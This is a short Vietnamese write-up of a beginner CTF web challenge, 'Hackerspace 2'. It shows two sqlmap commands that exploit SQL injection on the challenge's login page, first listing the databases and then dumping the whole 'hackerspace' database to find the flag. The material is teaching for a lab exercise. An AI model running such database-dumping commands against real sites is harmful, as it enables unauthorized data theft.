

# Hackerspace 2 - VGU Cypher CTF for beginner

- Write-up by [Qân](https://github.com/CallMeQan)
- Thuộc phần **Web Exploitation**

## Đánh giá

- Như bài `Hackerspace 1`, cũng là trang web đó, nhưng giờ chúng ta cần tìm database chứa flag

## Solution

- Trong bài này ta sẽ dùng [sqlmap](https://sqlmap.org/) để dò tìm cái flag do ta biết từ bài 1 là trang web bị lỗ hổng SQL Injection

- **Bước 1**: tải sqlmap về
- **Bước 2**: chạy lệnh

```shell
python3 sqlmap.py -u http://ctf.vgucypher.id.vn:3002/login.php --form --dbs --batch
```

- Output sẽ là:



- Ta biết được database cần tìm là `hackerspace`, sau đó chạy lệnh

```shell
python3 sqlmap.py -u http://ctf.vgucypher.id.vn:3002/login.php -D hackerspace --dump-all --batch --forms
```

=> **Nguyên cái flag trước mặt luôn**
